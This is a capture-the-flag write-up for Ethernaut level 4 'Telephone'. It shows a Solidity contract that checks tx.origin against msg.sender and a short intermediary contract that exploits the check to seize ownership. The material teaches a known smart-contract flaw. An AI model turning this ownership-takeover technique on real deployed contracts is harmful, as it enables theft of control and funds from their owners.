 # Level 4: Telephone

This is the level 4 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [Difference between `tx.origin` and `msg.sender`](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

`player` has to claim this contract's ownership.

Simple one. We'll make an intermediate contract (named `IntermediateContract`) with the same method `changeOwner` (or anything else -- name doesn't matter) on Remix. `IntermediateContract`'s `changeOwner` will simply call `Telephone` contract's `changeOwner`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ITelephone {
  function changeOwner(address _owner) external;
}

contract IntermediateContract {
  function changeOwner(address _addr) public {
    ITelephone(_addr).changeOwner(msg.sender);
  }
}
```

`player` will call `IntermediateContract` contract's `changeOwner`, which in turn will call `Telephone`'s `changeOwner` with `msg.sender` (which is `player`) as param. In that case `tx.origin` is `player` and `msg.sender` is `IntermediateContract`'s address. And since now `tx.origin` != `msg.sender`, `player` has claimed the ownership.

Done.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
